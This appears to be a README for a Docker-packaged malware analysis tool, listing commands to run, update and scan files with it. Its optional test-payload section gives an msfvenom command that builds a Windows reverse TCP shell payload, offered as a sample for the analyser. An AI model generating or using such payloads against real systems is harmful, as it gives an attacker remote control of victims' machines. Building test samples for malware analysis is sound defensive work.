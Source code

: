 <H3>ALL IN ONE MALWARE ANALYSIS (STATIC AND DYNAMIC)</H3>
tuts: https://youtu.be/5Z4QXIDQVyE?si=UXykY_vxrarTooxw&t=646

**RUN**
`docker run -it --rm -v ~/www/:/data quickscope:latest

**HELP**
`docker run -it --rm -v ~/www/:/data quickscope:latest -h`

**UPDATE**
`docker run -it --rm -v ~/www/:/data quickscope:latest --db_update`

**SCAN**
`docker run -it --rm -v ~/www/:/data quickscope:latest --file <file/to/scan.exe> --analyze`

---

**NOTE**
IF YOU ADDED SOME MODIFICATIONS, 
YOU HAVE TO REBUILD THE CONTAINER BEFORE USING IT
`sudo docker build -t qu1cksc0pe`

---
**TEST PAYLOADS (OPTIONAL)**

basic windows (bin)
`msfvenom -p windows/x64/shell/reverse_tcp lhost=wlan lport=9443 -f raw -o basic.bin`

